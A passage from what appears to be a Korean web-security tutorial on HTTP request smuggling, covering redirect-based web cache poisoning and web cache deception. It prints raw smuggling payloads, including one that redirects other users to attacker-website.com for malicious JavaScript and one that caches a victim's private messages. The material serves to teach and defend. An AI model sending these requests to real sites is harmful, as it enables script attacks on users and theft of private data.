 ## 04-05. On-site Redirection을 Open Redirection으로 전환 & 웹 캐시 P**oisoning**

홈페이지 상에서 On-site Redirection 시 아래와 같은 형태로 이루어집니다.

```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

**보통 Host 헤더의 도메인을 Redirection 대상으로 사용하는 경우가 많으므로**, 이 점을 Smuggling에 활용합니다. 아래와 같은 패킷을 보내어 다음 요청 사용자를 타 사이트로 Redirection 시킬 수 있습니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

Smuggling 요청이 Back-end 서버에서 대기하며 다음 요청이 도착하였을 때, 아래와 같은 형태가 됩니다. 공격자는 ‘https://attacker-website.com/home/’ 에서 공격 JavaScript를 반환하여 사용자에게 피해를 입힐 수 있습니다.

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

Front-end 서버에서 콘텐츠를 캐시하는 경우, 이러한 공격이 다음 요청 시에도 계속 적용이 되어 공격자의 사이트로 Redirection 하게 됩니다.

## 04-06. 웹 캐시 D**eception**

웹 캐시 Poisoning은 캐시된 패킷을 이용해 Redirection 시키거나 악성 행위를 하도록 유도하는 것이지만, 웹 캐시 Deception의 경우, 공격자가 Smuggling 패킷을 보내 다음 요청 패킷을 보내는 사용자가 중요 정보를 요청하도록 하면 중요 정보가 담긴 응답 패킷이 캐시에 저장되며 반환됩니다.
공격자는 캐시에 저장된 중요 정보를 요청하여 훔쳐볼 수 있습니다.

다음과 같은 Smuggling 패킷을 보내어 공격을 수행할 수 있습니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```
